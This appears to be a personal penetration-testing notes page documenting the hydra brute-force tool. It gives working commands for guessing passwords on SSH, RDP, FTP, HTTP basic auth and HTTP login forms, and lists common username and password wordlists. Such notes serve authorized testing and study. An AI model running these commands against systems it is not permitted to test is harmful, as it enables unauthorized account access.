 ```yaml
---
tags:
  - tool
  - brute_forcing
---
```

# hydra

Brute force services

## Capabilities

```bash
# Brute force protocols
hydra -l username -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://$IP -f
hydra -L /usr/share/wordlists/dirb/others/names.txt -p 'password' rdp://$IP -f
hydra -L /usr/share/wordlists/dirb/others/names.txt -p 'password' ftp://$IP -f

# Brute force basic auth (401)
hydra -l username -P /usr/share/wordlists/rockyou.txt $IP http-get -f

# Brute force HTTP post request
hydra -l username -P /usr/share/wordlists/rockyou.txt $IP http-post-form '/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid' -f
```

**Note:** `L` and `P` are used for username and password respectively, lowercase either of them to specify a single value

### Wordlists

```bash
# Usernames
/usr/share/wordlists/dirb/others/names.txt # 8607 lines
/usr/share/seclists/Usernames/Names/names.txt # 10177 lines

# Passwords (short)
/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt # 197 lines

# Passwords (long)
/usr/share/wordlists/rockyou.txt # 14344392 lines
```